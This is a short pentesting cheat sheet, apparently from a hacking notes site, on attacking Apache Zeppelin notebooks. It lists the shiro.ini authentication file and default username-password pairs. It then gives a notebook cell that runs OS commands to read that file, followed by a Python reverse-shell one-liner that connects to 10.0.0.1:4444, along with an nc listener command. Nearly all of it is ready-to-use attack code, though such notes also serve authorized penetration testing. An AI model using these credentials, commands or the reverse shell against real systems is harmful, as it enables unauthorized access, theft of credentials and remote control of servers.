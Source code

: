 ```yaml
---
title: Apache Zeppelin Pentesting
description: Apache Zeppelin is a web-based notebook that enables data-driven. It uses 8080 port by default.
tags:
    - Web
refs:
    - https://zeppelin.apache.org/docs/0.8.0/setup/security/shiro_authentication.html
date: 2023-04-02
draft: false
---
```


## Authentication Config File

```bash
/shiro.ini
```

<br />

## Default Credentials

```bash
admin:admin
admin:password1
user1:password2
user1:role1
user1:role2
user2:password3
user2:role3
user3:password4
user3:role2
```

<br />

## RCE in Notebooks

We can execute remote OS command in notebooks. Access to the notebook and execute the following scripts.

```python
%python

import os

# Configurations
os.system('cat conf/shiro.ini')
```

### Reverse Shell

Before executing the following script, we need to start a listener such as **`nc -lvnp 4444`** in local machine.

```python
%python

import os,pty,socket;s=socket.socket();s.connect(("10.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```